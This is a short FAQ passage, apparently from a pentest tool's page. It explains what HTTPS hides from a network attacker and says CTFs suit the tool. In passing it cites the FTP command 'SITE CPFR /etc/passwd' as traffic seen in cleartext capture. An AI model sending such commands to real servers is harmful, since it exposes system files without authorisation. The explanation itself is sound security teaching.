If the FTP/HTTP traffic was plaintext, why does HTTPS help — the attacker still intercepts the packets?
HTTPS encrypts the application-layer payload. An attacker on the same network still sees the TCP/IP headers (so they know you talked to something) and the TLS SNI hostname (so they often know which site), but not the URL path, the request body, the response, or any credentials. Follow TCP Stream on a TLS connection shows ciphertext, not the SITE CPFR /etc/passwd you saw on FTP. That's the whole reason cleartext protocols (FTP, Telnet, plain HTTP) are findings in a pentest and TLS-wrapped ones usually aren't.
Can I use this for a CTF?
Yes, and they're a perfect proving ground. CTFs are authorized by design, the targets are scoped by the organizer, and the writeups make great training data. Keep the agent transcript in your CTF notes — six months later you'll forget how you solved a box; the transcript won't.